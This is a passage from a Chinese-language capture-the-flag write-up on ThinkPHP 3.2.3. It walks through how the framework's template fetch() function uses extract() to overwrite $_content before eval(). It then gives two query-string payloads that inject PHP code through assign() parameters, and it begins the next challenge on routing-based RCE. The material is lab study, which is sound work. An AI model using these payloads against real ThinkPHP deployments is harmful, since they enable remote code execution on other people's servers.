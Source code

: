::: dangerous
fu*k，白忙活了，我说怎么跟别的师傅环境不一样，我还一直以为我的是tp3.2.3，原来是tp3.2.5，天塌了
:::

[v3.2.3项目地址](https://github.com/top-think/thinkphp/releases/tag/3.2.3)

ok啊，不好意思。让我们重新开始，tp323和tp325版本只有这个`fetch`函数稍有不同


fetch函数：

extract() 是 PHP 的一个内置函数，它将数组 $this->tVar 中的键值对转换为独立的 PHP 变量，如果`$this->tVar`数组里有`_content`属性，那么会覆盖当前作用域的`_content`变量，`eval('?>' . $_content);`解析执行一个php代码

```php
if ('php' == strtolower(C('TMPL_ENGINE_TYPE'))) {
            // 使用PHP原生模板
            $_content = $content;
            // 模板阵列变量分解成为独立变量
            extract($this->tVar, EXTR_OVERWRITE);
            // 直接载入PHP模板
            empty($_content) ? include $templateFile : eval('?>' . $_content);
        } 
```

所以直接在这里传值覆盖一下`$this->assign($name,$from);`

因为assgin的if判断两种格式总之都是给属性`$this->tVar`添加新属性，所以payload有两种写法

```php
?name[_content]=<?php phpinfo();?>
?name=_content&from=<?php phpinfo();?>
```

## web 579

> 描述：未开启强制路由RCE

在tp官方文档里了解到了`强制模式`，像`flask`框架一样，只有定义的路由可以正常访问，否则抛出异常

![39](/medias/show-think/39.png)
